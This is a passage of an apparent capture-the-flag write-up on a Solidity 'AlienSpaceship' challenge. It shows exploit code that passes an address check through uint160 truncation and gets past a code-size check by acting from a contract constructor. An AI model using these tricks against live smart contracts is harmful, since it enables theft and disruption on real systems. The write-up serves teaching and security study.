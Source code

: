 ## Visiting area51

Calling the `visitArea51` function requires us to hold the `CAPTAIN` role, which we have covered how to achieve it. However, there is another require check that we have to pass `require(address(varg0 + msg.sender) == 51)`, where `varg0` is of `address` type. The number `51` is represented as `0x33` in hexadecimal. Initially, I thought of setting `varg0` as `address(0x33)` and send the transaction as the null address (`msg.sender`) to pass the check. However, while that might work in test environments, it would never work in practice because nobody has the private key of the null address 🤣

To pass the require check, we need to determine `sum` such that `address(sum)` evaluates to `0x33`. The `sum` would be represented like that `sum = varg0 + msg.sender`, which means `varg0 = sum - msg.sender`. Based on the [ABI spec](https://docs.soliditylang.org/en/latest/abi-spec.html), the `address` type is equivalent to `uint160`. As mentioned earlier, when doing typecasting for `uint` converting from a larger integer type to a smaller one, the bits on the right are kept while the bits on the left are lost. What if we can produce `sum` such that the first 20 bytes on the right is equivalent to `0x33` (while ensuring that it doesn't overflow/undeflow)? The `address` typecast would only consider 20 bytes on the right, which would allow us to pass the check. Here is one way to do it:

```solidity

  // 0x10000000000000000000000000000000000000033 - (20 bytes, 1 nibble)
  uint256 magicNumber = 1461501637330902918203684832716283019655932543027;
  uint256 payload = magicNumber - uint160(player);
  alienSpaceship.visitArea51(address(uint160(payload)));

```

`magicNumber` would be the sum after this evaluation `address(uint160(payload)) + msg.sender` and the `address` typecast would only consider the 20 bytes on the right of the `magicNumber`, which evaluates to `0x33`.

## Calling `abortMission` as an account with code

Calling `abortMission` requires the `msg.sender` to hold the `CAPTAIN` role and be an account with code. However, to first be a `CAPTAIN`, the `msg.sender` needs to be `PHYSICIST` and call the `enableWormholes()` function, which requires `msg.sender` to be an account without code. We can achieve this by creating a smart contract that includes the logic of applying the `PHYSICIST` role and calling the `enableWormholes()` function in the constructor scope. In the constructor scope, the contract has not been created yet, so it does not contain any code, which allows us to call the `enableWormholes` function successfully. We can then separate the logic of applying the role as a `CAPTAIN` and calling `abortMission` in a separate function that will be called later as an account with code.

```solidity

  contract AbortHero {
      AlienSpaceship private alienSpaceship;
      bytes private constant PHYSICIST = abi.encode(0xb5b6b705a01c9fbc2f5b52325436afd32f5988596d999716ad1711063539b564);
      bytes private constant CAPTAIN = abi.encode(0x3a1665efe60dbe93a7cdcf728baddc0d7ebafe407d444d0de3ed20e1e52a6a0d);

      constructor(address _alienSpaceship) {
          alienSpaceship = AlienSpaceship(_alienSpaceship);
          alienSpaceship.applyForJob(bytes32(PHYSICIST));
          alienSpaceship.enableWormholes();
      }

      function abortMission() external {
          alienSpaceship.applyForPromotion(bytes32(CAPTAIN));
          alienSpaceship.abortMission();
      }
  }

```
